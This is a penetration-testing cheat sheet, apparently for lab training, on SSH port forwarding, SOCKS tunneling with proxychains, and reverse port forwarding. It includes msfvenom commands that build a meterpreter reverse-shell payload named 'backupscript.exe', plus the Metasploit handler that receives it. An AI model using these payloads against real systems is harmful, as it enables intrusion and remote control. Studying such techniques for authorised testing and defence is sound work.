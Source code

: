 * [Pivoting, Tunneling and Port forwarding](#pivoting-tunneling-and-port-forwarding)
  - [Dynamic Port Forwading with SSH and Socks Tunneling](#dynamic-port-forwading-with-ssh-and-socks-tunneling)
  - [Reverse Port Forwarding with SSH](#reverse-port-forwarding-with-ssh)
  - [Meterpreter Tunneling & Port Forwarding](#meterpreter-tunneling--port-forwarding)
  - [Socat Redirection with a REverse Shell](#socat-redirection-with-a-reverse-shell)
  - [Socat Redirection with a Bind Shell](#socat-redirection-with-a-bind-shell)
  - [SSH for Windows: plink.exe](#ssh-for-windows-plinkexe)
  - [Web Server Pivoting with Rpivot](#web-server-pivoting-with-rpivot)
  - [Port Forwarding with Windows Netsh](#web-server-pivoting-with-rpivot)
  - [DNS Tunneling with Dnscat2](#dns-tunneling-with-dnscat2)
  - [SOCKS5 Tunneling with Chisel](#socks5-tunneling-with-chisel)
  - [ICMP Tunneling with SOCKS](#icmp--tunneling-with-socks)
  - 


# Pivoting, Tunneling and Port forwarding
## Dynamic Port Forwading with SSH and Socks Tunneling
### Executing the local Port Forward
```
ssh -L <local port>:<Victim Ip>:<Remote Port> user@<machine-IP>
```
### Confirming Port Forward with Netstat
```
netstat -antp | grep <port-no>
```
### Confirming Port Forward with Nmap
```
nmap -v -sV -p<port-no> <machine-ip>
```
### Forwarding multiple ports
```
ssh -L 1234:localhost:3306 8080:localhost:80 ubuntu@10.129.202.64
```
### Dynamic Port Forwarding
SSH Tunneling over Socks Proxy
```
ssh -D 9050 ubuntu@10.129.202.64
```
To inform proxychains that we must use port 9050, we must modify the proxychains configuration file located at /etc/proxychains.conf. We can add socks4 127.0.0.1 9050 to the last line if it is not already there.

## Reverse Port Forwarding with SSH
Creating a Windows Payload with msfvenom
```
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```
Configuring & Starting the multi/handler
```
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
```